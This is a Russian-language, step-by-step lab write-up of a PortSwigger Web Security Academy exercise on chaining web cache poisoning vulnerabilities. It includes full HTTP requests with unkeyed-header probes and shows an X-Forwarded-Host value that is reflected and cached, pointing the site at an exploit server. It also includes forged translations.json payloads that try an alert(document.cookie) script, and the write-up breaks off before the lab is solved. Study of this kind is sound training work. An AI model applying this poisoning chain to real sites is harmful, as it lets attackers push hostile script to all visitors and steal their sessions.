эксперт

## Цепочка уязвимостей отравления веб-кэша

лаба
https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-combining-vulnerabilities

задание:
Пользователь посещает домашнюю страницу примерно раз в минуту, и его язык установлен на английский. Чтобы решить эту проблему, отравите кэш ответом, который выполняет `alert(document.cookie)` в браузере посетителя

----------

вот ориг главная страница
```http
GET / HTTP/2
Host: 0aab00f304f0633d80d0123200f100a3.web-security-academy.net
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not-A.Brand";v="24", "Chromium";v="146"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

на сайте есть функционал - перевода страницы вручную на разные языки

вот скрипты из html главной стр
```html
<script type="text/javascript" src="\resources\js\translations.js">
</script>
       
       
<script>
initTranslations('//' + data.host + '/resources/json/translations.json');
</script>
```


вот этот файл
GET /resources/json/translations.json HTTP/2

```json
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 3000

{
    "en": {
        "name": "English"
    },
    "es": {
        "name": "español",
        "translations": {
            "Return to list": "Volver a la lista",
            "View details": "Ver detailes",
            "Description:": "Descripción:"
        }
    },
    "cn": {
        "name": "中文",
        "translations": {
            "Return to list": "返回清單",
            "View details": "查看詳情",
            "Description:": "描述:"
        }
    },
    "ar": {
        "name": "عربى",
        "translations": {
            "Return to list": "العودة إلى القائمة",
            "View details": "عرض التفاصيل",
            "Description:": "وصف:"
        }
    },
    "en-gb": {
        "name": "Proper English",
        "translations": {
            "Return to list": "From whence you came",
            "View details": "Do me the honour of elaborating",
            "Description:": "Pontifications on the subject matter:"
        }
    },
    "ml": {
        "name": "മലയാളം",
        "translations": {
            "Return to list": "ലിസ്റ്റിലേക്ക് മടങ്ങുക",
            "View details": "വിശദാംശങ്ങൾ കാണുക",
            "Description:": "വിവരണം:"
        }
    },
    "hb": {
        "name": "עברית",
        "translations": {
            "Return to list": "חזור לרשימה",
            "View details": "הצג פרטים",
            "Description:": "תיאור:"
        }
    },
    "zl": {
        "name": "Ẕ̻͕̿̊ͤ̍ͅa͙l̗ͧg̮̤̰̘͇ȍ͇͕̳̙͙͉́̅̋̌̅",
        "translations": {
            "Return to list": "Re̹̰̘͉̹̪ͅt̬̫̜ȕͩ͒ͥͥr̃̉͒n ̎͂t͎͖̽͋o͖̟͚͙̲͐ͤͫ̎̓ ̼̟͈̭͉͎̂ͯ̔ͤͤ̏͐ͅliͤ͑ͧ̆̐̈̀sṭ̠̮̰͍̙͒̔͆̈ͤ̅",
            "View details": "V̖̮͙ͅi͇e͙̦w̭̣̫͇̦̬̰ ̓͑̓ͯ̔d͍͂e͚̮͖͍͖̠͙ͮͭ̉ͦ̏͌̆t̙͎̺͉a̳̖͔̱͉̱͑̆̌̃͊ͬi̯͚͙̼̹̮l̖͎͛̈́͒ͅs̒̒ͤ̽̒̀",
            "Description:": "D̳͔e̝ͩ̐ͅsc̗̱̼̤̬̎̓ͪͣͭ̐ͅr̪̝͖̙̱̄̓͌̓̚ip̭̦̭̰̻ͣ̓̽ͨ̚ț̤̝̻i̹̱̟̞͕̓̓ͬ̓ͬ̆ͅon̠͚͕̈́̋̓:"
        }
    },
    "fn": {
        "name": "Suomalainen",
        "translations": {
            "Return to list": "Palaa luetteloon",
            "View details": "Näytä kuvaus",
            "Description:": "Kuvaus:"
        }
    },
    "hw": {
        "name": "Ōlelo Hawaiʻi",
        "translations": {
            "Return to list": "Hoʻi i ka papa inoa",
            "View details": "E nānā i nā kikoʻī",
            "Description:": "ʻO keʻano:"
        }
    },
    "mm": {
        "name": "ဗမာ",
        "translations": {
            "Return to list": "စာရင်းသို့ပြန်သွားသည်",
            "View details": "အသေးစိတ်ကြည့်ရန်",
            "Description:": "ဖော်ပြချက်:"
        }
    }
}
```


------------

вот запрос который меняет язык страницы
```http
GET /setlang/en-gb? HTTP/2
Host: 0aab00f304f0633d80d0123200f100a3.web-security-academy.net
Cookie: session=QypSn3Na1PL7W7Bf4HEIYmD4JH05Zn9J
Sec-Ch-Ua: "Not-A.Brand";v="24", "Chromium";v="146"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aab00f304f0633d80d0123200f100a3.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

и вот ответ с редиректом

HTTP/2 302 Found
Location: /?localized=1
Cache-Control: private
Set-Cookie: lang=en-gb; Path=/; Secure
X-Frame-Options: SAMEORIGIN
X-Cache: miss
Content-Length: 0

(кеш не сохраняется)
```

и редиректит на главную стр но через вот такой путь 
и в ответе точно такая же страница, как 
и 
при запросе `GET / HTTP/2`
```http
GET /?localized=1 HTTP/2
Host: 0aab00f304f0633d80d0123200f100a3.web-security-academy.net
Cookie: session=QypSn3Na1PL7W7Bf4HEIYmD4JH05Zn9J; lang=en-gb
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not-A.Brand";v="24", "Chromium";v="146"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://0aab00f304f0633d80d0123200f100a3.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
=
```

-----

закидываю бомбу
```http
GET /?localized=77 HTTP/2
Host: 0aab00f304f0633d80d0123200f100a3.web-security-academy.net
Cookie: session=QypSn3Na1PL7W7Bf4HEIYmD4JH05Zn9J; lang=en-gb
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not-A.Brand";v="24", "Chromium";v="146"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://0aab00f304f0633d80d0123200f100a3.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
X-Forwarded-Host: xxxx11
X-Forwarded-Scheme: xxx2
X-Forwarded-Server: xxx3
X-Host: xxx4
X-Original-Url: xxx5
X-Rewrite-Url: xxx6
X-Http-Method-Override: xxx7
Forwarded: xxx8
Origin: xxx9
Accept-Encoding: xxx11
Cookie: xxx22
Pragma: akamai-x-get-cache-key33
X-Cache-Key: xxx44
X-True-Cache-Key: xxx55
Cache-Status: xxx66
Cf-Cache-Status: xxx77
X-Cache: xxx88
X-Cache-Hits: xxx99
Via: xxx111
Age: xxx222
Cache-Control: xxx333
Vary: xxx444


```
и вот первая зацепка!
отразилось в ответе! X-Forwarded-Host: xxxx11
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 11529

<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <script>
            data = {"host":"xxxx11","path":"/"}
        </script>
```

и вот моментально вторая зацепка!!
епта!
еще и в кеш попала эта инфа!

делаю обычный запрос и получаю это же самое!
```html
       <script>
            data = {"host":"xxxx11","path":"/"}
        </script>
```



---------

###### итого, что я имею:

вот эта страница
GET / HTTP/2
и вот эта
GET /?localized=77 HTTP/2

позволяют мне сделать так, что в html ответе отражается мой пейлоад + он еще и в кеше сохраняется!!!


-----

попробую сюда указать мой эксплойт сервер

X-Forwarded-Host: xxxx11

вот так
`exploit-0ae800f504bf63c48040119801cf00d3.exploit-server.net`




и поменял еще Content-Type: application/json; charset=utf-8
{"Hello": "world!"}

----

делаю пару таких запросов и посмотрим, будет ли обращение - звонок на мой сервер
```http
GET / HTTP/2
Host: 0aab00f304f0633d80d0123200f100a3.web-security-academy.net
Accept-Language: ru-RU,ru;q=0.9
.....
X-Forwarded-Host: exploit-0ae800f504bf63c48040119801cf00d3.exploit-server.net

```

ШИ-КА-Р-НО !!
я поймал чужой ip
в течении 1 мин травил кеш этой главной стр
```c
45.83.181.90    2026-03-26 06:37:04 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36"

10.0.4.99       2026-03-26 06:37:07 +0000 "GET /resources/json/translations.json HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim)👈👈👈👈👈🍺🍺🍺🔥 AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

-----

теперь попробую видоизменить json файл, что я нашел здесь 
GET /resources/json/translations.json HTTP/2

и сохранить этот файл на свой эксплойт свервер, например - я поменяю названия

сохраняю это на своем эксплойт сервере как ответ
```json
{
    "en": {
        "name": "English777777777"
    },
    
    "cn": {
        "name": "中文44444444444",
        "translations": {
            "Return to list": "返回6666666清單",
            "View details": "查看9999999詳情",
            "Description:": "描22222222述:"
        }
    }
}
```


----------
отравил кеш




открыл страницу через полное обновление (или можно в инкогнито, или перезапустить лабу, главное уложиться в 30 сек после отравления)

и вуаля!! что-то да получилось! я сломал систему, выпадающий список языков сломался! 

раньше там отображались языки, а сейчас - ничего нет, значит, что сайт подгрузил мой (или судя по ошибкам) пытался подгрузить мой json файл с моего сервера!




вот ошибка в консоли - cors ругается
```c
(index):1 Access to fetch at 'https://exploit-0ae800f504bf63c48040119801cf00d3.exploit-server.net/resources/json/translations.json' from origin 'https://0aab00f304f0633d80d0123200f100a3.web-security-academy.net' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource.
```

значит добавлю еще на эксплойт Access-Control-Allow-Origin: *


-------
в перехваченных запросах видно, что файл был заружен самим сайтом с моего сервера
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Server: Academy Exploit Server
Content-Length: 352

{
    "en": {
        "name": "English777777777"
    },
    
    "cn": {
        "name": "中文44444444444",
        "translations": {
            "Return to list": "返回6666666清單",
            "View details": "查看9999999詳情",
            "Description:": "描22222222述:"
        }
    }
}
```




----
пытаюсь убрать ошибки и добавлю еще на эксплойт Access-Control-Allow-Origin: *

снова травлю кеш и перезапускаю полностью страницу, Command + Shift + R

надеюсь, скрипт норм подгрузится

------

оооо даа!! получилось

мой файл сайт не только скачал теперь, но и успешно подгрузил и подставил в контекст страницы!!! красота, теперь в выпадающем меню выбора языка - находится ерунда из моего пейлоада!!!!




-----

теперь осталось понять, как запустить пейлоад свой, посмотреть где отображется и какие "интстанции" проходит мой пейлоад перед попаданием уже в html страницы

------

вот html в который же динамически все подгрузилось
```html
<select id="lang-select" onchange="((ev) =&gt; { ev.currentTarget.parentNode.action = '/setlang/' + ev.target.value; ev.currentTarget.parentNode.submit(); })(event)">
                        <option value="en">English777777777</option><option value="cn">中文44444444444</option></select>
```




----

попробую просто скрипт обычный туда залить
вот так
```json
{
    "en": {
        "name": "<script>alert(document.cookie)</script>"
    },
    
    "cn": {
        "name": "中文44444444444",
        "translations": {
            "Return to list": "返回6666666清單",
            "View details": "查看9999999詳情",
            "Description:": "描22222222述:"
        }
    }
}
```


снова травлю кеш и полностью перезапускаю страницу

вижу свой скритп
вот так отразился в html
```html
<select id="lang-select" onchange="((ev) =&gt; { ev.currentTarget.parentNode.action = '/setlang/' + ev.target.value; ev.currentTarget.parentNode.submit(); })(event)">
                        <option value="en">&lt;script&gt;alert(document.cookie)&lt;/script&gt;</option><option value="cn">中文44444444444</option></select>
```




и здесь стоит какая-то защита, так как - как только я выбираю язык со скриптом, то страница перезагружается автоматически и подгружается оригинальный json файл

значит - можно попробовать выполнить скрипт на этапе обработки после загрузки !

пробую  так (варики пейлоадов на сервере)
```json
----------------------
{
    "en": {
        "name": ""
    },

```

сам по себе не сработал скрипт



----


попробовал поставить по умолчанию первый язык, чтобы он сразу и подгружался - но почему-то он не хочет это делать, он грузит из офиц источника, такое - ощущение, что если он получает ошибку , например скрипт, то принудительно обновляет json файл скачивая его с офиц ресурса

--------
и я думаю, что проблема в структуре оригинального json файла

там  у инглиш - всего один параметр - в то время, как у всех остальных еще есть обьект с 3 параметрами

сделаю инглишу также
сохраняю это на эксплойт сервере
```json
{
    "en": {
        "name": "English11111",
        "translations": {
            "Return to list": "zdariva",
            "View details": "hhhhhhhhhhh",
            "Description:": "zzzzzzzz:"
        }
    },
    "es": {
        "name": "español22222",
        "translations": {
            "Return to list": "Volve33333333r a la lista",
            "View details": "Ver de4444444tailes",
            "Description:": "Descrip55555555ción:"
        }
    },
    "cn": {
        "name": "中文3333",
        "translations": {
            "Return to list": "返回清單",
            "View details": "查看詳情",
            "Description:": "描述:"
        }
    },
    "ar": {
        "name": "عربى4444",
        "translations": {
            "Return to list": "العودة إلى القائمة",
            "View details": "عرض التفاصيل",
            "Description:": "وصف:"
        }
    },
    "en-gb": {
        "name": "Proper English5555",
        "translations": {
            "Return to list": "From whence you came",
            "View details": "Do me the honour of elaborating",
            "Description:": "Pontifications on the subject matter:"
        }
    },
    "ml": {
        "name": "മലയാളം6666",
        "translations": {
            "Return to list": "ലിസ്റ്റിലേക്ക് മടങ്ങുക",
            "View details": "വിശദാംശങ്ങൾ കാണുക",
            "Description:": "വിവരണം:"
        }
    },
    "hb": {
        "name": "עברית7777",
        "translations": {
            "Return to list": "חזור לרשימה",
            "View details": "הצג פרטים",
            "Description:": "תיאור:"
        }
    },
    "zl": {
        "name": "Ẕ̻͕̿̊ͤ̍ͅa͙l̗ͧg̮̤̰̘͇ȍ͇͕̳̙͙͉́̅̋̌̅8888",
        "translations": {
            "Return to list": "Re̹̰̘͉̹̪ͅt̬̫̜ȕͩ͒ͥͥr̃̉͒n ̎͂t͎͖̽͋o͖̟͚͙̲͐ͤͫ̎̓ ̼̟͈̭͉͎̂ͯ̔ͤͤ̏͐ͅliͤ͑ͧ̆̐̈̀sṭ̠̮̰͍̙͒̔͆̈ͤ̅",
            "View details": "V̖̮͙ͅi͇e͙̦w̭̣̫͇̦̬̰ ̓͑̓ͯ̔d͍͂e͚̮͖͍͖̠͙ͮͭ̉ͦ̏͌̆t̙͎̺͉a̳̖͔̱͉̱͑̆̌̃͊ͬi̯͚͙̼̹̮l̖͎͛̈́͒ͅs̒̒ͤ̽̒̀",
            "Description:": "D̳͔e̝ͩ̐ͅsc̗̱̼̤̬̎̓ͪͣͭ̐ͅr̪̝͖̙̱̄̓͌̓̚ip̭̦̭̰̻ͣ̓̽ͨ̚ț̤̝̻i̹̱̟̞͕̓̓ͬ̓ͬ̆ͅon̠͚͕̈́̋̓:"
        }
    },
    "fn": {
        "name": "Suomalainen99999",
        "translations": {
            "Return to list": "Palaa luetteloon",
            "View details": "Näytä kuvaus",
            "Description:": "Kuvaus:"
        }
    },
    "hw": {
        "name": "Ōlelo Hawaiʻi1010101",
        "translations": {
            "Return to list": "Hoʻi i ka papa inoa",
            "View details": "E nānā i nā kikoʻī",
            "Description:": "ʻO keʻano:"
        }
    },
    "mm": {
        "name": "ဗမာ11234567890",
        "translations": {
            "Return to list": "စာရင်းသို့ပြန်သွားသည်",
            "View details": "အသေးစိတ်ကြည့်ရန်",
            "Description:": "ဖော်ပြချက်:"
        }
    }
}
```

вот так все отравилось

